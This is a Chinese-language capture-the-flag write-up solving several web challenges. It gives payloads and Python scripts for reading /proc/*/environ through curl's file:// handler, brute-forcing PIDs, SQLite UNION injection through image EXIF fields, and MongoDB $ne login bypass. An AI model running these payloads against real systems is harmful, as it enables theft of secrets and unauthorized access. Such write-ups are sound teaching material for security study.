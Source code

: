 ##  学到的东西

1. 从网络或者源代码的`js`中去搜索关键的信息
2. 怎么构造json数据，进行传输
3. 通过爆pid号可以获取进程的信息，熟悉了`/proc`目录下的东西

##  Apollo1337

这个题就是考的一个对信息的收集

首先根据题目描述就是需要一个`api`

在网络部分，找到`api/status?verbose=`

然后随便输入一个

![image-20220913135041637](img/image-20220913135041637.png)



根据一步一步的提示，进行`json`数据的输入

![image-20220913135219121](img/image-20220913135219121.png)



![image-20220913135125143](img/image-20220913135125143.png)

## curl up and read

`curl`就想到先用几个协议`file`进行尝试

`file://`可以任意文件读取

直接读取`/proc/self/environ`

看到是nodejs的环境变量，有flag的信息`FLAG=REDACTED`

```js
npm_config_user_agent=npm/8.11.0 node/v16.15.1 linux x64 workspaces/falseHOSTNAME=20c39cf42ef0
npm_node_execpath=/usr/bin/nodenpm_config_no
proxy=HOME=/rootOLD
PWD=/app
npm_package_json=/app/package.json
npm_config_userconfig=/root/.npmrc
npm_config_local_prefix=/appCOLOR=0
npm_config_metrics_registry=https://registry.npmjs.org/
npm_config_prefix=/usr
npm_config_cache=/root/.npm
npm_config_node_gyp=/usr/lib/node_modules/npm/node_modules/node-gyp/bin/node-gyp.js
PATH=/app/node_modules/.bin:/node_modules/.bin:/usr/lib/node_modules/npm/node_modules/@npmcli/run-script/lib/node-gyp-bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binNODE=/usr/bin/nodenpm_life
cycle_script=next start -p 1337
npm_lifecycle_event=startnpm_config_global
config=/usr/etc/npmrcnpm_config_init_module=/root/.npm-init.js
PWD=/appnpm_exec
path=/usr/lib/node_modules/npm/bin/npm-cli.js
npm_config_global_prefix=/usrnpm_command=run-script
FLAG=REDACTED
INIT_CWD=/app
EDITOR=vi
NODE_ENV=production__NEXT_OPTIMIZE_FONTS=true
```

看题目给出的源码

```js
const options = {
        timeout: 2000, // kill if the download takes longer than two seconds
        env: {...process.env, FLAG: 'REDACTED'} // even if CURL is somehow pwned, it won't have access to the flag
    }

    // download the requested webpage
    const output = execFileSync('curl', ['-s', pageParsed.url], options);
```

options的设置使得curl执行时会redacte掉当前进程环境变量中的FLAG

因为`curl`进行是题目最开始的进程发起的子进程

我们直接读取`curl`的父进程，父进程的环境变量应该是好的`Flag`

可以直接爆破pid或读`/proc/self/status`找到当前进程的ppid

```python
import requests
from base64 import b64encode

URL = 'http://1.14.71.254:28416/read/'

for i in range(1,100):
    payload = b64encode(b'{"url":"file:///proc/%d/environ"}' % i).decode("utf-8") #id=9
    r = requests.get(URL+payload)
    if "NSS" in r.text:
        print(i)
        print(r.text)
        break
```

## gullible by dovesign

先把首页鸟的照片下下来，然后上传抓包，改`EXIF信息`

存在一个SQLlite的注入

```
<rdf:li xml:lang="x-default">Coracias caudatus</rdf:li></rdf:Alt>
```

```sqlite
' UNION SELECT 1, sql, 3 FROM sqlite_schema LIMIT 1 OFFSET 1 --`
```

读取`employee_accts`中的password，得到flag

```sqlite
' UNION SELECT 1, password, 3 FROM employee_accts WHERE password like 'sdc%' LIMIT 1 OFFSET 0 --
```

## HuMongous Mistake

题目名称提示MongoDB，考虑nosql注入，尝试登录admin

```
username=admin&password[%24ne]=1
```

回显：Malformed string. Invalid length!

```
username=admin&password[%24ne]=1&password[length]=1
```

然后就是利用任意用户名注册登录后的`2FA`，放到admin账户上，实现一个逻辑漏洞

## lots of logs

遍历日志，根据提示是2018年

```python
import requests
import datetime

f = open('./all_logs.txt', 'a+')

base_url = "http://1.14.71.254:28305/logs/"

start = '2018-1-1'
end = '2018-12-31'

datestart = datetime.datetime.strptime(start, '%Y-%m-%d')
dateend = datetime.datetime.strptime(end, '%Y-%m-%d')

starturl = url = base_url + datestart.strftime('%Y/%#m/%#d/%a')+'.log'

while datestart < dateend:
    url = base_url + datestart.strftime('%Y/%#m/%#d/%a')+'.log'
    print(url)
    r = requests.get(url)
    f.write('\n' + url + r.text)
    datestart += datetime.timedelta(days=1)
```

在2018年发现缺少了6/10-6/12的日志

查看`6/13`号的日志

![image-20220913180852115](img/image-20220913180852115.png)

本地nc一下就有flag了

![image-20220913180913079](img/image-20220913180913079.png)

##  jawt that down!

找到`login.js`中找到用户的账号和密码

访问主页上的flag，`https://jawt.sdc.tf/s`，当jwt有效时显示`d`，失效后显示`Invalid Token: Access Denied`
只需要自动化足够快地请求就可以得到整个flag

```python
import requests

sess = requests.session()
URL = 'https://jawt.sdc.tf'
flag = '/s/'
while True:
    data = {"username":"AzureDiamond","password":"hunter2"} #In file /js/login.js
    r = sess.post(URL+'/login',data=data)
    print(flag)
    r1 = sess.get(f'{URL}{flag}')
    flag += r1.text + '/'
    if '}' in flag:
        break
print(flag.replace('/',''))
```

##  参考文章

http://47.97.156.232/index.php/archives/12/